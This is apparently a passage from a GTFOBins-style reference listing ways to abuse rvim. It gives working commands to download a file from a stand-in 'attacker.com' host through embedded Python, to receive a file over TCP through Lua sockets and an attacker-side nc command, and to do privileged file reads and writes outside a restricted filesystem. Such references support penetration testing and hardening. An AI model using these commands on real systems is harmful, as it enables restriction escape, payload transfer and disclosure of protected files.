 ## File download

It can download remote files.

This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.

```
export URL=http://attacker.com/file_to_get
export LFILE=file_to_save
rvim -c ':py import vim,sys; from os import environ as e
if sys.version_info.major == 3: import urllib.request as r
else: import urllib as r
r.urlretrieve(e["URL"], e["LFILE"])
vim.command(":q!")'
```

Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file. This requires that `rvim` is compiled with Lua support and that `lua-socket` is installed.

```
export LPORT=12345
export LFILE=file_to_save
rvim -c ':lua local k=require("socket");
  local s=assert(k.bind("*",os.getenv("LPORT")));
  local c=s:accept();
  local d,x=c:receive("*a");
  c:close();
  local f=io.open(os.getenv("LFILE"), "wb");
  f:write(d);
  io.close(f);'
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
rvim file_to_write
iDATA
^[
w
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
rvim file_to_read
```
